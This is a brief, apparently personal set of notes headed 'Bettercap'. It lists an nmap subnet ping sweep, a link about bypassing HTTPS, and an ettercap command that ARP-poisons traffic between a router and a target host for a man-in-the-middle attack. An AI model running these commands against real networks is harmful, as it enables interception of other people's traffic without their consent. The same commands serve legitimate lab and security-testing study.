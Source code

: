 # Bettercap
sudo nmap -sn ip/subnet

Http to https redirect with HTS

https://www.javatpoint.com/bypassing-https

sudo ettercap -T -S -i wlxd03745bddda3 -M arp:remote /(ip-of-router)// /(ip-of-target)//
